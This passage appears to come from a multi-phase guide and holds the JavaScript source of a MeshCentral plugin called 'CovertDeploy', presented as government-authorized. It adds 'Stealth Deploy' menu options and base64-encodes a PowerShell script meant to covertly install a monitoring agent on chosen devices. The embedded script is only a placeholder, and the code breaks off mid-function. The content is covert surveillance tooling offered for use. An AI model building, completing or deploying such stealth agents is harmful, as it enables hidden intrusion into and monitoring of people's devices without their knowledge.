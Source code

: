 ### PHASE 3: MeshCentral Plugin Integration

#### Node.js Plugin for One-Click Deployment

**File:** `meshcentral-data/plugins/covert-deploy/covertdeploy.js`

```javascript
/**
 * MeshCentral Covert Deployment Plugin
 * Ministry of Interior Authorized
 * Purpose: One-click stealth agent deployment to individual devices
 */

module.exports.covertdeploy = function (parent) {
    var obj = {};
    obj.parent = parent;
    obj.pluginName = 'CovertDeploy';
    obj.description = 'Stealth agent deployment and management';

    // Plugin initialization
    obj.parent.debug('plugin', 'Initializing ' + obj.pluginName);

    // Add menu item to web UI
    obj.meshserver_menu_setup = function (menudef) {
        menudef[obj.pluginName] = {
            title: 'Stealth Deploy',
            ico: 'security',
            fn: function () { showCovertDeployUI(); }
        };
    };

    // Handle device-specific deployment
    obj.hookDeviceMenu = function (nodeid, callback) {
        // Add "Deploy Stealth Agent" option to individual device menu
        callback({
            title: 'Deploy Stealth Monitoring',
            icon: 'shield',
            action: function() {
                deployToDevice(nodeid);
            }
        });
    };

    // PowerShell script for stealth deployment
    obj.getDeploymentScript = function () {
        // Base64 encode the entire Deploy-StealthMeshAgent.ps1 script
        // In production, this would be the full script from above
        var scriptContent = `
# Stealth deployment script (abbreviated for space)
# Full script would be embedded here
param([string]$ServerUrl, [string]$Hash)

# ... (full Deploy-StealthMeshAgent.ps1 content) ...
`;

        return Buffer.from(scriptContent).toString('base64');
    };

    // Execute deployment on target device
    obj.deployToDevice = function (deviceid, callback) {
        obj.parent.debug('plugin', 'Starting covert deployment to device: ' + deviceid);

        // Get device connection
        var device = obj.parent.webserver.meshes[deviceid];
```